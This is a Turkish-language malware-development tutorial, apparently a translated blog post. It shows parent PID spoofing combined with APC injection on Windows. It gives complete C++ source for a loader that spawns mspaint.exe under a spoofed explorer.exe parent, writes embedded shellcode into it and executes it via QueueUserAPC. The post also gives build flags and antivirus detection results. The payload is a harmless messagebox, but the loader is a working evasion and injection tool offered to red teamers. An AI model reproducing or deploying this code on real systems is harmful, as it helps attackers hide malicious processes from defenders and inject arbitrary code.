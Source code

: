 36. Zararlı Yazılım Geliştirme Tüyoları. Parent PID Spoofing. Basit C++ Örneği.

﷽

++++++++++++++++++++++++++++++++

Bu makale, parent process ID spoofing üzerine yaptığım kendi araştırmalarımın bir sonucudur.

Parent PID Spoofing  

Parent ve child süreçler arasındaki ilişkileri izlemek, tehdit avı ekipleri tarafından kötü amaçlı etkinlikleri belirlemek için kullanılan yaygın bir yöntemdir. Kırmızı takım üyeleri, Parent PID Spoofing yöntemini bir kaçış yöntemi olarak benimsemiştir.  CreateProcess Windows API çağrısı, Parent PID'yi belirlemenize olanak tanıyan bir parametreyi destekler.  
Bu, kötü amaçlı bir işlemin oluşturulduğunda çalıştırılan işlemden farklı bir parent kullanabileceği anlamına gelir.  

Pratik Örnek

Hadi pratik bir örneğe bakalım. İlk olarak, diyelim ki elimizde bir süreç var, örneğin mspaint.exe:


++++++++++++++++++++++++++++++++

PID'sinin 3396 olduğunu görebilirsiniz. Parent süreci (PID: 2876) explorer.exe'dir:  

 ++++++++++++++++++++++++++++++++

Process Hacker kullanarak, mevcut dizinin C:\Windows\System32 olduğunu da görebiliriz:  

++++++++++++++++++++++++++++++++

Bu numaranın yürütme akışı şu adımları içerir:  
- explorer.exe PID'sini aldım: 

int pid = findMyProc(argv[1]);
if (pid) {
	printf("PID = %d\n", pid);
}

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid); 

Mspaint.exe sürecini oluşturalım:

CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE,
CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT,
NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000,
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

Oluşturulan süreç belleğine meow-meow payload'unu yazın:

BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);

Oluşturulan işlemin iş parçacığına, APC kuyruğuna bir kullanıcı modu asenkron işlem çağrısı (APC) nesnesi ekleyin:  

QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);

İş parçacığını devam ettirin:  

ResumeThread(pi.hThread);
CloseHandle(pi.hThread);

Tam kaynak kod:
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {
	HANDLE hSnapshot;
	PROCESSENTRY32 pe;
	int pid = 0;
	BOOL hResult;

	// snapshot of all processes in the system
	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

	// initializing size: needed for using Process32First
	pe.dwSize = sizeof(PROCESSENTRY32);

	// info about first process encountered in a system snapshot
	hResult = Process32First(hSnapshot, &pe);

	// retrieve information about the processes
	// and exit if unsuccessful
	while (hResult) {
		// if we find the process: return process ID
		if (strcmp(procname, pe.szExeFile) == 0) {
			pid = pe.th32ProcessID;
			break;
		}
		hResult = Process32Next(hSnapshot, &pe);
	}

	// closes an open handle (CreateToolhelp32Snapshot)
	CloseHandle(hSnapshot);
	return pid;
}

int main(int argc, char* argv[]) {
	unsigned char my_payload[] =
	// 64-bit meow-meow messagebox
	"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
	"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
	"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
	"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
	"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
	"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
	"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
	"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
	"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
	"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
	"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
	"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
	"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
	"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
	"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
	"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
	"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
	"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
	"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
	"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
	"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
	"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
	"\x2e\x2e\x5e\x3d\x00";

	STARTUPINFOEXA si;
	PROCESS_INFORMATION pi;
	SIZE_T st;
	int pid = findMyProc(argv[1]);
	if (pid) {
		printf("PID = %d\n", pid);
	}

	HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);

	ZeroMemory(&si, sizeof(STARTUPINFOEXA));
	InitializeProcThreadAttributeList(NULL, 1, 0, &st);
	si.lpAttributeList =
	(LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, st);
	InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &st);
	UpdateProcThreadAttribute(si.lpAttributeList, 0,
	PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
	si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
	CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE,
CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL,
	NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
	LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE |
	MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	SIZE_T *nb = 0;
	BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload,
	sizeof(my_payload), nb);
	QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
	ResumeThread(pi.hThread);
	CloseHandle(pi.hThread);
	return 0;
}  

Gördüğünüz gibi, önceki gönderilerimden kodu yeniden kullandım.  
Burada, başlatılan süreci biraz sabitledim; bunu komut satırı parametrelerinden alacak şekilde değiştirebilirsiniz.  

Demo

Kodumuzu derleyelim: 

x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive

++++++++++++++++++++++++++++++++

kurbanın makinesinde çalıştıralım:  

.\hack.exe explorer.exe

++++++++++++++++++++++++++++++++

Process Hacker'ı çalıştırın ve görebileceğiniz gibi, mspaint.exe süreci başarıyla oluşturuldu (PID: 4720):  

++++++++++++++++++++++++++++++++

Ve:  
++++++++++++++++++++++++++++++++

++++++++++++++++++++++++++++++++


Gördüğünüz gibi, parent süreç 2876, bu explorer.exe'ye karşılık geliyor, ancak mevcut dizin Z:\2022-09-06-malware-tricks-23!  

Ve süreç belleğinde ne olduğuna bakalım:

++++++++++++++++++++++++++++++++

Her şey mükemmel bir şekilde çalıştı :)  

Aslında sizi biraz kandırdım. Örneğimde sadece parent süreç spoofing yapılmadı. 
Bu, PPID spoofing ve APC enjeksiyonunun bir kombinasyonudur. Çünkü ben de sizin gibi yeni şeyler öğreniyorum ve bazen kendinize sorular sormaktan ve denemekten korkmamalısınız.  

Şimdi hack.exe dosyamızı VirusTotal'a yükleyelim:

++++++++++++++++++++++++++++++++

Sonuç olarak, 70 antivirüs motorundan 20 tanesi dosyamızı zararlı olarak algıladı.  

https://www.virustotal.com/gui/file/3ec9f1080253f07695f0958ae84e99ff065f052c
409f0f7e3e1a79cd4385a9d5/detection

Bu teknik, Cobalt Strike ve KONNI RAT tarafından kullanılır.  
Örneğin, Cobalt Strike alternatif PPID'lerle süreçler başlatabilir.  

Bu teknik, ilk olarak 2009'da Didier Stevens tarafından daha geniş bilgi güvenliği topluluğuna tanıtıldı.  

Umarım bu yazı, mavi takım üyelerine farkındalık kazandırır ve kırmızı takım üyelerinin cephaneliğine bir silah daha ekler. 

Didier Stevens: That Is Not My Child Process!( https://blog.didierstevens.com/2017/03/20/that-is-not-my-child-process/)
MITRE ATT&CK: Parent PID spoofing(https://attack.mitre.org/techniques/T1134/004/)
Cobalt Strike(https://attack.mitre.org/software/S0154/)
KONNI(https://attack.mitre.org/software/S0356/)
CreateProcessA(https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)
Find process ID by name and inject to it(https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)
APC injection technique(https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)
Github’taki kaynak kod: https://github.com/cocomelonc/meow/tree/master/2022-09-06-malware-tricks-23
